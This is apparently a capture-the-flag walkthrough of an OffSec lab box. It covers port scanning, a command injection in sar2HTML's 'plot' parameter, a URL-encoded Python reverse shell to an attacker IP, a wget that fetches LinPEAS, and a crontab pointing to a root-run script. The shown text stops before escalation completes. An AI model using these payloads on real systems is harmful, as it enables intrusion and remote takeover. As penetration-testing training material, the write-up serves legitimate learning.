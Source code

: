```
> rustscan -b 1000 -u 5000 -r 0-65535 -a 192.168.223.35 -- -Pn
```
```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.223.35:22
Open 192.168.223.35:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 00:39 EDT
Initiating Parallel DNS resolution of 1 host. at 00:39
Completed Parallel DNS resolution of 1 host. at 00:39, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 00:39
Scanning 192.168.223.35 [2 ports]
Discovered open port 80/tcp on 192.168.223.35
Discovered open port 22/tcp on 192.168.223.35
Completed Connect Scan at 00:39, 0.18s elapsed (2 total ports)
Nmap scan report for 192.168.223.35
Host is up, received user-set (0.18s latency).
Scanned at 2023-10-26 00:39:56 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds
```

```
> rustscan -u 5000 -p 22,80 -a 192.168.223.35 -- -Pn -sCV
```
```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.223.35:22
Open 192.168.223.35:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 00:41 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 00:41
Completed Parallel DNS resolution of 1 host. at 00:41, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 00:41
Scanning 192.168.223.35 [2 ports]
Discovered open port 80/tcp on 192.168.223.35
Discovered open port 22/tcp on 192.168.223.35
Completed Connect Scan at 00:41, 0.18s elapsed (2 total ports)
Initiating Service scan at 00:41
Scanning 2 services on 192.168.223.35
Completed Service scan at 00:41, 6.37s elapsed (2 services on 1 host)
NSE: Script scanning 192.168.223.35.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 5.23s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.72s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
Nmap scan report for 192.168.223.35
Host is up, received user-set (0.18s latency).
Scanned at 2023-10-26 00:41:07 EDT for 13s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHy/WJJHLFdbwbJpTyRYhEyj2jZV024UPWIdXfNHxq45uh08jkihv3znZ98caLP/pz352c0ZYD31We0bTSbHyjQce2bSAJHubDYp13hU/P4tbV5GIJ72W2rWkLTslH/SJoHUSqlManB7ZzgVyU2KQ4fnNx/V1XGJYsshquRqTrXKeeal+yQvTC4gnsr8ENIGMq0yJnYxMAasx6kmSc+S+065Mie65xkyisFXo2MQyxzsFdCu2w1bYmb3pegYDm6Y0c/EJP0sxDizXVwkUOS0XSVdGuk3RUYjt5GQ2fL24ZsML6CwN+HD2ZTnD0FK90PQTLuvlp6BoI/ZWvIenNvu63
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFgxutbLnN4K2tj6ZHzrlzTKS+RRuly+RkA0J63JsQFiwyvz4PqA64w/h0Se3gymZV6zJ9XBpS41b6IoEymeiSA=
|   256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM+5254x35Vwa2S7X73YLY87Q58qQOD9oQeSKMpmmT0o
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 00:41
Completed NSE at 00:41, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.95 seconds
```

TCP 80/HTTP
```
http://192.168.223.35/
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/31152133-0eb4-4522-bc9e-f5956a2aff7d)

```
http://192.168.223.35/robots.txt
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/4e9abd33-9946-40ed-ab55-5f65f2817b7f)

```
http://192.168.223.35/sar2HTML/
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/438bef78-7664-45e9-a7ce-b4bca7043cae)

```
> searchsploit sar2html 3.2.1
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/4e51793a-dee2-4983-b150-c920c143391e)

```
> searchsploit -m php/webapps/49344.py
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/c58c4b88-64cb-4113-b971-b841f661c5e8)
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/52e5d38e-d619-41e9-ad59-93883841f451)

Manual Exploitation
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/cb1df527-fa04-407d-b858-a46b74333ee8)
```
http://192.168.223.35/sar2HTML/index.php?plot=;whoami
```

Reverse Shell
```
http://192.168.223.35/sar2HTML/index.php?plot=;python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.45.231%22,9090));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/4e84d691-8330-48c7-a59f-c9ce5965aaaa)

```
> rlwrap nc -nlvvp 9090
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/3796063f-129a-4c41-bbdf-c1eff80cf73b)

Privilege Escalation
LinPEAS
```
www-data@sar:/tmp$ wget http://192.168.45.231/linpeas.sh
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/2af4b81a-f610-4e8e-9062-fedde44ca54d)

```
www-data@sar:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@sar:/tmp$ ./linpeas.sh
```
![image](https://github.com/karanshergill/OffSec-Play-Labs/assets/83878909/04d98692-aaaa-4733-b86e-5ebb5e19cae4)

List Cronjobs
```
www-data@sar:/var/www/html/sar2HTML$ less /etc/crontab
```
```
less /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

finally.sh
```
#!/bin/sh

./write.sh
```

write.sh
```
#!/bin/sh

touch /tmp/gateway
www-data@sar:/var/www/html$ 
```
